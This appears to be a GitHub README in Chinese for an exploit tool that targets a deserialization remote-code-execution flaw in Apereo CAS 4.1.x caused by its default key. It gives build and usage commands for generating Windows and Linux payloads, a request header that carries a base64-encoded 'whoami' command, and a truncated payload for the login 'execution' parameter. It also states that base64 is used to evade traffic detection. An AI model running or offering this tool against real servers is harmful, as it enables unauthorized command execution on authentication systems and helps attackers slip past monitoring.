

# ApereoCAS 4.1.X 使用默认密钥导致的反序列化漏洞回显复现

## 0x01 Introduce

1. Request/Response回显
2. 支持win和linux payload
2. 简单使用base64防止流量检测

## 0x02 Buiding

```mvn clean package -DskipTests```

## 0x03 Usage

```
Usage: java -jar yso-apereoCAS-all.jar [payload] [platform]
Usage: java -jar yso-apereoCAS-all.jar CommonsCollections2_apereo "win"
Usage: java -jar yso-apereoCAS-all.jar CommonsCollections2_apereo "linux"

[Add Request Header] Reqstr: d2hvYW1p (whoami)

execution参数下划线后进行Url encode key characters
3ce72aed-749b-4003-90a3-ea5ac52368fc_AAAAIgAAABByQvrQ..............
```

## 0x04 Screenshot


## 0x05 Reference
* https://github.com/frohoff/ysoserial
* https://www.freebuf.com/vuls/226149.html
* https://www.00theway.org/2020/01/04/apereo-cas-rce/